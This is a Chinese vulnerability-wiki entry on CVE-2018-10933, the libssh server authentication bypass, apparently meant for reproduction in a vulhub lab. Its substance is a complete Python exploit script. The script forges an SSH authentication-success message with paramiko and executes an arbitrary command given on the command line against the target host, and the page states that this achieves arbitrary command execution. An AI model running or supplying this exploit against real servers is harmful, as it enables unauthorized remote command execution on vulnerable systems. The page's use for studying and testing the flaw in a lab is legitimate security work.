 （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

libssh的server-side state machine 0.7.6之前版本和0.8.4

三、复现过程
------------

    CVE-2018-10933.py
    #!/usr/bin/env python3
    import sys
    import paramiko
    import socket
    import logging

    logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
    bufsize = 2048


    def execute(hostname, port, command):
        sock = socket.socket()
        try:
            sock.connect((hostname, int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            client = transport.open_session(timeout=10)
            client.exec_command(command)

            # stdin = client.makefile("wb", bufsize)
            stdout = client.makefile("rb", bufsize)
            stderr = client.makefile_stderr("rb", bufsize)

            output = stdout.read()
            error = stderr.read()

            stdout.close()
            stderr.close()

            return (output+error).decode()
        except paramiko.SSHException as e:
            logging.exception(e)
            logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
        except socket.error:
            logging.debug("Unable to connect.")

        return None


    if __name__ == '__main__':
        print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

使用python3执行，即可在目标服务器上执行任意命令：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-10933)Libssh服务端权限认证绕过漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/libssh/CVE-2018-10933/
